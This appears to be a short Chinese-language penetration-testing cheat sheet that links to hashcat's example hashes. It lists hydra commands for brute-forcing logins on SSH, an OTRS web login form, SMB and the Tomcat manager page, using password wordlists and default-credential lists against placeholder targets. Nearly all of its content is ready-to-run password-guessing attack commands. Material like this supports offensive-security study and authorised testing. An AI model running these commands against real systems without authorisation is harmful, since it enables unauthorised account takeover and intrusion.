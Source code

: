 https://hashcat.net/wiki/doku.php?id=example_hashes


## ssh 登录枚举

```bash
hydra -l <USER> -P /usr/share/wordlists/wfuzz/others/common_pass.txt ssh://<IP>
hydra -l root -P ssh_password.txt <IP> ssh
```

## POST 登录枚举

```bash
hydra -l 'root@localhost' -P `pwd`/cewl_passlist.txt <IP> http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-120&User=^USER^&Password=^PASS^:F=Login failed"
```

## SMB 枚举

```bash
 hydra -t 1 -V -f -l {Username} -P {Big_Passwordlist} {IP} smb
```

## Tomcat 枚举

```bash
hydra -L users.txt -P passwd.txt -t 20 <IP> -s 8080 http-get /manager/html
hydra -C /home/kali/tools/DictionaryTools/IntruderPayloads/Repositories/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://<IP>:8080/manager/html
```

